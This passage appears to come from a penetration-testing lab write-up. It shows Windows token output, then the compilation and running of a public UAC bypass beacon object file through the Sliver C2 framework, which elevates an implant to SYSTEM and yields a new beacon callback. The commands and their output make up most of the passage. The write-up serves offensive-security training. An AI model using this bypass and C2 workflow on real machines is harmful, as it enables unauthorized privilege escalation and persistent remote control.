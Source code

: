 ```terminal
CONSOLE LOGON                                     Well-known group         S-1-2-1                                       Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\Authenticated Users                  Well-known group         S-1-5-11                                      Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\This Organization                    Well-known group         S-1-5-15                                      Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\Local account                        Well-known group         S-1-5-113                                     Mandatory group, Enabled by default, Enabled group,
LOCAL                                             Well-known group         S-1-2-0                                       Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\NTLM Authentication                  Well-known group         S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group,
Mandatory Label\Medium Mandatory Level            Label                    S-1-16-8192                                   Mandatory group, Enabled by default, Enabled group,


Privilege Name                Description                                       State
============================= ================================================= ===========================
SeChangeNotifyPrivilege       Bypass traverse checking                          Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set                    Disabled
```

Now we continue with an [UAC bypass](https://github.com/icyguider/UAC-BOF-Bonanza) to finally get a system beacon:

Compiling the UAC bypass BOF:

```terminal
cp -rp ~/dev/UACBypasses/SspiUacBypass /root/.sliver-client/extensions/
cd /root/.sliver-client/extensions/SspiUacBypass/; make
```

Running the BOF:

```terminal
extensions load /home/xct/.sliver-client/extensions/SspiUacBypass
SspiUacBypass C:\\programdata\\puppet\\puppet-update.exe

Forging a token from a fake Network Authentication through Datagram Contexts
Network Authentication token forged correctly, handle --> 0x2a4
Forged Token Session ID set to 1. lsasrv!LsapApplyLoopbackSessionId adjusted the token to our current session
Bypass Success! Now impersonating the forged token... Loopback network auth should be seen as elevated now
Invoking CreateSvcRpc (by @x86matthew)
Connecting to \\127.0.0.1\pipe\ntsvcs RPC pipe
Opening service manager...
Creating temporary service...
Executing 'C:\programdata\puppet\puppet-update.exe' as SYSTEM user...
Deleting temporary service...
Finished


[*] Beacon 15d1aae2 puppet-mtls - 10.10.144.230:51531 (File01) - windows/amd64 - Thu, 17 Oct 2024 14:48:30 CEST
```
